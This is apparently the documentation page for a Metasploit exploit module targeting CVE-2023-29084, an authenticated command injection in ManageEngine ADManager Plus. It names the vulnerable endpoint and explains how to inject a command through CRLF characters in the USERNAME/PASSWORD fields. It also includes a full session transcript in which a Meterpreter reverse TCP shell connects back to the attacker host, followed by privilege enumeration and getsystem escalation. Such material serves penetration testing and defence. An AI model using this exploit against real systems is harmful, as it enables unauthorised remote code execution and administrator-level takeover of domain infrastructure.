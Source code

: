 ## Vulnerable Application
ManageEngine ADManager Plus prior to build 7181 is vulnerable to an authenticated command injection due to insufficient
validation of user input when performing the `ChangePasswordAction` function before passing it into a string that is later
used as an OS command to execute. 

By making a POST request to `/api/json/admin/saveServerSettings` with a `params` POST
parameter containing a JSON array object that has a `USERNAME` or `PASSWORD` element containing a 
carriage return and newline, followed by the command the attacker wishes to execute, an attacker can gain RCE as the user
running ADManager Plus, which will typically be the local administrator. 

Note that the attacker must be authenticated in order to send requests to `/api/json/admin/saveServerSettings`, 
so this vulnerability does require authentication to exploit.

## Verification Steps

1. Set up a Windows Server target as a domain controller server.
2. Download https://web.archive.org/web/20220926012908if_/https://download.manageengine.com/products/ad-manager/13024552/ManageEngine_ADManager_Plus_64.exe onto the target and run through the setup window, accepting defaults.
3. Start `msfconsole`
4. `set RHOST *target IP*`
5. `set LHOST *local IP address*`
6. `set SRVHOST *local IP address*` <- This step is optional depending on payload.
7. `exploit`
8. You should get a shell back as the local administrator user on the target machine.

## Options

### USERNAME
Username to log into ADManager Plus as.

### PASSWORD
Password to log into ADManager Plus with.

### DOMAIN
Domain to log into ADManager Plus with or `ADManager Plus Authentication`.

## Scenarios

### ManageEngine ADManager Plus Build 7151 on Windows Server 2022
```
msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > show options

Module options (exploit/windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection):

   Name      Current Setting                Required  Description
   ----      ---------------                --------  -----------
   DOMAIN    ADManager Plus Authentication  yes       The domain to log into
   PASSWORD  admin                          yes       The password to log in with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    192.168.64.149                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     9090                           yes       The target port (TCP)
   SSL       false                          no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin                          yes       The user to log into ADManager Plus as
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.128   yes       The listen address (an interface may be specified)
   LPORT     8899             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_admanager_plus_cve_2023_29084_auth_cmd_injection) > exploit

[*] Started reverse TCP handler on 192.168.64.128:8899 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is running AdManager Plus build 7151!
[+] The target appears to be vulnerable. Target appears to be running a vulnerable version of AdManager Plus!
[+] Logged in successfully!
[*] Sending stage (175686 bytes) to 192.168.64.149
[*] Meterpreter session 3 opened (192.168.64.128:8899 -> 192.168.64.149:57276) at 2023-05-25 15:32:08 -0500
[+] Request timed out. Its likely the payload executed successfully!

meterpreter > getuid
Server username: DAFOREST\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeDelegateSessionUserImpersonatePrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
